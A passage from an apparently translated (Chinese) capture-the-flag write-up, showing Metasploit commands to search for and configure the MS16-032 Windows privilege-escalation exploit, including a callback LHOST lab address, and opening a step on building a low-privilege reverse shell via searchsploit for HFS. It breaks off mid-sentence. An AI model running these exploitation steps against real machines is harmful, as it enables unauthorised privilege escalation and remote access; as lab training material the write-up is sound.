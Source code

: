 回到 Metasploit，我检查是否有任何可用的漏洞，我发现一个

```
search ms16-032
```

![Screenshot-2019-10-08-at-20.47.07](img/6049b7daeb61f41db6f67f9c419902ca.png)

我检查了选项并设置了**会话**

```
set SESSION 3
```

**LHOST**

```
set LHOST 10.10.14.27
```

而**目标**为 Windows x64

```
set TARGET 1
```

我检查选项，看看是否一切都配置正确

![Screenshot-2019-10-08-at-20.44.38](img/8ee1bd38442c072a601c795e57a7efbf.png)

我启动了漏洞利用，但它似乎不再工作。我需要在没有 Metasploit 帮助的情况下手动利用它！

![Screenshot-2019-10-08-at-20.44.46](img/52d0e4d4dbe47c9d98f6519a0a9b04e8.png)

## **步骤 5 -创建一个**低权限反向外壳

回到 searchsploit，我检查来自

```
searchsploit HFS
```
